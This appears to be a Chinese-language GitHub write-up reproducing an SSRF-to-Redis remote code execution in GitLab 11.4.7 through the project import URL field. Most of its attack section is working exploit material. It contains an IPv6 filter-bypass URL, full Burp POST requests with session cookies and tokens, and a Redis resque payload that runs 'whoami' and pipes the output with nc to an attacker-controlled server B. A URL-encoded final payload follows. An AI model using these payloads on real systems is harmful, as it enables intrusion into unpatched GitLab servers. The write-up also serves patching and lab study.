




# gitlab-ssrf-redis-rce


------

## 漏洞描述

GitLab 为社区版和企业版发布了 11.3.1、11.2.4 和 11.1.7 安全修复版本。这些版本包含许多重要的安全修复程序，强烈建议立即将所有 GitLab 升级到其中一个版本。其中包含了SSRF漏洞 ，配合上redis 可执行命令。

------

## 受影响的产品

gitlab 11.4.7

------

## 漏洞复现

直接利用docker来搭建，官方有镜像，并启动redis，在服务器A上搭建。

```
cd gitlab-docker
docker-compose up -d
```

完成后可以使用`docker ps`查看是否启动成功


访问http://ip:5080/ 先注册一个账号并登陆 。然后点 New project - Import project - Repo by URL





`Git repository URL`处存在SSRF，使用ipv6地址绕过过滤。
测试下，首先先进入到gitlab容器,命令如下
```
[root@localhost gitlab-docker]# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                                                NAMES
e99725e303d6        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   5 hours ago         Up 5 hours (healthy)   0.0.0.0:5022->22/tcp, 0.0.0.0:5080->80/tcp, 0.0.0.0:50443->443/tcp   gitlab-docker_web_1_35bc6d53be82
[root@localhost gitlab-docker]# docker exec -it e99725e303d6 /bin/bash
root@gitlab:/# 
```
使用nc监听下，需要先下载nc
```
apt update && apt install -y netcat
nc -lvp 1234
```

发送payload
`git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git`

BURP
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 370
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1xsx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassxx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```



测试可以访问本地的1234端口 ，所以也可以访问redis的6379端口，并使用redis达到命令执行

[@ jobertabma](https://twitter.com/jobertabma)的[PAYLOAD](https://hackerone.com/reports/299473)

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc xxx.xxx.xxx.xxx 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

`xxx.xxx.xxx.xxx`换成远程服务器B（攻击端）的IP地址

远程服务器B开启nc监听
```
nc -lvvp 1234
```

所以我们构造的最终payload(url编码)
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

burp
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 981
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1sx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```



复现成功

------

## 修复方案

将gitlab升级到最新版本


## 参考文章

* https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
* https://github.com/jas502n/gitlab-SSRF-redis-RCE
